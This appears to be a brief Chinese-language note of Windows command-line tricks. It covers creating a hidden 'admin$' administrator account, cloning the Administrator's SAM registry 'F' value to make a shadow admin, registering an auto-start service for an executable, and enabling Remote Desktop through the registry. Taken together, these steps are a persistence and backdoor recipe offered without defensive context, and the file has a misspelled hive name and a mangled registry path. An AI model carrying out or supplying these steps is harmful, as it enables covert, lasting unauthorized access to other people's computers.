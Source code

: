 # Windows

### 自动登录设置

```angular2html
control userpasswords2

```

### Windows注册表添加账户

> 使用命令 `net user admin$ admin /add`添加账户
>
> 使用命令 `net localgroup administrators admin$ /add`添加进管理员组
>
> 使用命令 `regedit`打开注册表，跳转到 `HKEY_LOACL_MACHINE\SAM\SAM` 发现没有展开项，需要修改权限为 `当前用户-完全控制`
> 
> 然后将继续展开 `Domains\Account\Users` 找到添加的账户导出注册表，找到对应制的F替换成Administrator账户的F值，导出
>

### 创建服务
```angular2html
sc create 服务名称 start= auto binPath= "C:\haya.exe"
```
### 删除服务
````angular2html
sc delete 服务名称
````
### 命令行开启3389(远程桌面)
```angular2html
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```